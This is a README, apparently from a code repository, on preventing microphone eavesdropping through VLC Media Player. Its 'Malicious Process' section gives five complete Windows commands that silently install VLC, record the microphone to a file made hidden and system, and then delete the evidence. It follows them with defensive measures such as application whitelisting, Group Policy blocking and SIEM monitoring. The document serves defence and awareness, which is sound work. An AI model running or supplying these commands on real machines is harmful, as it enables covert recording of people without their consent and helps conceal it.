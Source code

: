 README.MD: Preventing Unauthorized Eavesdropping Using VLC Media Player
=======================================================================

Overview
--------

This document outlines a malicious process that can be used to eavesdrop on conversations using the microphone of a workstation. It also provides recommendations for organizations to prevent such unauthorized activities by blocking VLC Media Player or implementing log and event monitoring as deterrent measures.

Malicious Process
-----------------

The following commands demonstrate how an attacker can use VLC Media Player to record audio from a workstation's microphone and hide the recorded file:

1.  `C:\\vlcsetup.exe /S & ping 0.0.0.0 -n 40 >/nul & del /F /Q "%systemdrive%\\Users\\Public\\Desktop\\VLC media player\*\*" & del C:\\vlcsetup.exe`
This command installs VLC Media Player silently, waits for 40 seconds, and then deletes the installer and any desktop shortcuts created.
    
2.  C:\\Progra~1\\VideoLAN\\VLC\\vlc.exe --one-instance dshow:// :dshow-vdev=none :dshow-adev :sout=#transcode{vcodec=h264,scale=Auto,acodec=mpga,ab=128,channels=2,samplerate=44100}:duplicate{dst=std{access=file,mux="ogg",dst="C:\\hibernate"}}This command starts VLC in a single instance mode, captures audio from the default audio device, and saves the recording to a file named **hibernate** in the root of the C drive.
    
3.  attrib +h +s C:\\hibernateThis command sets the **hibernate** file as hidden and system, making it less likely to be noticed by the user.
    
4.  taskkill /f /im vlc\* & ping 0.0.0.0 -n 5 >/nul & attrib -h -s C:\\hibernateThis command forcefully terminates any VLC processes, waits for 5 seconds, and then removes the hidden and system attributes from the **hibernate** file.
    
5.  del C:\\hibernate & taskkill /f /im cmd\*This command deletes the **hibernate** file and forcefully terminates any Command Prompt processes.
    

Prevention Measures
-------------------

To prevent unauthorized eavesdropping using VLC Media Player, organizations can implement the following measures:

### 1\. Block VLC Media Player

*   **Application Whitelisting:** Implement application whitelisting to prevent unauthorized software, including VLC Media Player, from being installed or executed.
    
*   **Group Policy:** Use Group Policy Objects (GPO) to block the installation and execution of VLC Media Player on all workstations.
    

### 2\. Log and Event Monitoring

*   **Audit Logs:** Enable and monitor audit logs for any suspicious activities, such as the creation and deletion of files, and the execution of unauthorized processes.
    
*   **Event Monitoring:** Implement a Security Information and Event Management (SIEM) system to monitor and analyze events in real-time, allowing for quick detection and response to any unauthorized activities.
    

### 3\. User Education

*   **Training:** Educate users on the importance of not installing unauthorized software and the risks associated with phishing attacks and malicious downloads.
    
*   **Reporting:** Encourage users to report any suspicious activities or emails to the IT department.
    

Conclusion
----------

The malicious process outlined in this document highlights the potential security risks associated with unauthorized use of software like VLC Media Player. By implementing the prevention measures described, organizations can significantly reduce the likelihood of unauthorized eavesdropping and protect their sensitive information.

Regularly reviewing and updating security policies, procedures, and technologies is essential to maintain a strong security posture in the face of evolving threats.

**Disclaimer:** This document is intended for educational and informational purposes only. The misuse of the information provided can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this document to break the law.